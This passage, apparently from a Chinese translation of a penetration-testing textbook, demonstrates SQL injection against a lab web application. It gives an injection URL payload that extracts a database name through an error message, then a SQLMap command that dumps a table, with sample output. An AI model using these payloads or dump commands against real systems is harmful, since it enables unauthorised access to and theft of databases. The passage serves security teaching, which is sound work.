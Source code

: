 ### 注意

并非所有容易受到 SQL 注入攻击的应用程序都会详细显示错误信息。事实上，有一类称为盲 SQL 注入漏洞，其中即使存在注入缺陷，错误信息也不会显示出来。

### 利用 SQL 注入漏洞

现在我们知道该网站存在 SQL 注入漏洞，我们可以利用这个漏洞对数据库执行开发者未曾预料的其他查询。例如，我们可以通过以下查询来查找第一个数据库的名称：

```
http://192.168.20.12/bookservice/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(0))--
```

查询抛出了一个错误信息，*转换失败，无法将 nvarchar 值 ‘BookApp’ 转换为 int 数据类型*，这告诉我们第一个数据库的名称是 BookApp，如图 14-10 所示。

![显示数据库名称的错误信息](img/httpatomoreillycomsourcenostarchimages2030444.png.jpg)图 14-10. 显示数据库名称的错误信息

### 使用 SQLMap

我们还可以使用工具自动生成 SQL 查询，通过 SQL 注入在站点上执行各种任务。我们只需要一个注入点，其它的交给工具处理。例如，示例 14-1 展示了当我们向 Kali 中的 SQLMap 工具提供一个潜在可注入的 URL 时，SQLMap 会测试 SQL 注入漏洞并执行注入查询。

示例 14-1. 使用 SQLMap 转储数据库

```
root@kali:~# **sqlmap -u**❶ **"http://192.168.20.12/bookservice/bookdetail.aspx?id=2" --dump**❷
--*snip*--
[21:18:10] [INFO] GET parameter 'id' is 'Microsoft SQL Server/Sybase stacked queries' injectable
--*snip*--
Database: BookApp
Table: dbo.BOOKMASTER
[9 entries]
+--------+---------------+-------+-------+-------------------------------------
| BOOKID | ISBN          | PRICE | PAGES | PUBNAME | BOOKNAME                                                                                             | FILENAME | AUTHNAME | DESCRIPTION

                                     |
+--------+---------------+-------+-------+-------------------------------------
| 1      | 9780470412343 | 11.33 | 140   | Que; 1st edition (October 23, 2000) | Do not Make
Me Think A Common Sense Approach to Web Usability                                        |
4189W8B2NXL.jpg | Steve Krug and Roger Black | All of the tips, techniques, and examples
presented revolve around users being able to surf merrily through a well-designed site
with minimal cognitive strain. Readers will quickly come to agree with many of the books
assumptions, such as We do not read pages--we scan them and We do not figure out how things
work--we muddle through. Coming to grips with such hard facts sets the stage for Web design
that then produces topnotch sites. |
--*snip*--                      |
```
